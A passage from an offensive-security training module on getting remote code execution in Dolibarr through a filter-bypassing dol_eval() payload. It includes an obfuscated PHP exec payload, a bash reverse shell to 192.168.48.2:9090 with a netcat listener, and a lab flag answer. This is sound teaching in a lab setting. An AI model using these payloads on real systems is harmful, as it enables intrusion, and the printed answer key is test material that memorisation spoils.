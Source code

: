 We could verify this using the debugger. If you wish to explore the application further on your own, we recommend setting breakpoints on the calls to dol_eval() from the fetch_optionals(), insertExtraFields(), setValuesForExtraLanguages(), showOptionals(), showOutputField(), and updateExtraFields() functions instead of setting a breakpoint within the dol_eval() function itself.

Let's try submitting our payload. First, we'll need to return to the Users module setup page at http://dolibarr/dolibarr/user/admin/user_extrafields.php. We can update the existing attribute by clicking the modify button (pencil icon) and then typing our payload in the Computed field.

Below is the payload we crafted earlier in this Learning Module:

get_defined_functions()["internal"][array_search(urldecode("%65%78%65%63"), get_defined_functions()["internal"])]("whoami");
Listing 21 - Exploit payload

After adding our new payload, we'll click Save. Now we can navigate back to the list of users and check the value of the "test" column.

Figure 20: List of Users Displaying the Results of Our Payload
Figure 20: List of Users Displaying the Results of Our Payload
Excellent. The "test" column displays "www-data", which indicates the application processed our payload through dol_eval(). The payload bypassed the security filters in the function. We have verified we can exploit the application's custom attribute functionality for remote code execution.

11.4.2. Getting a Reverse Shell
Now that we have a proof-of-concept payload for remote code execution, let's update it to obtain a reverse shell. We already have a framework for calling operating system commands in our payload. We can modify the value we're passing to exec() to generate a reverse shell instead of running whoami.

Let's use a bash reverse shell:

get_defined_functions()['internal'][array_search(urldecode("%65%78%65%63"), get_defined_functions()['internal'])]("/bin/bash -c 'bash -i >& /dev/tcp/192.168.48.2/9090 0>&1'");
Listing 22 - Updating the payload with a bash reverse shell

Our next steps are to start a Netcat listener to handle our reverse shell, then update the Computed field with our new payload.

kali@kali:~$ nc -nvlp 9090
listening on [any] 9090 ..
www-data@dolibarr:/usr/share/dolibarr/htdocs/user/admin$ whoami
whoami
www-data
www-data@dolibarr:/usr/share/dolibarr/htdocs/user/admin$ 
Listing 23 - Reverse shell from the Dolibarr VM

Excellent. Our payload worked and we now have a reverse shell on the Dolibarr VM.

Resources
Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.

Dolibarr - Exercise	
Labs
Using the Dolibarr - Exercise VM, follow the steps outlined above and get a reverse shell. The flag is located at /flag.txt. Note that VSCode is not available for this exercise.
Answer
OS{45ca43ea8a2b337fc895909ffe4a31c6}
11.5. Filter Bypass Revisted
This Learning Unit covers the following Learning Objectives:
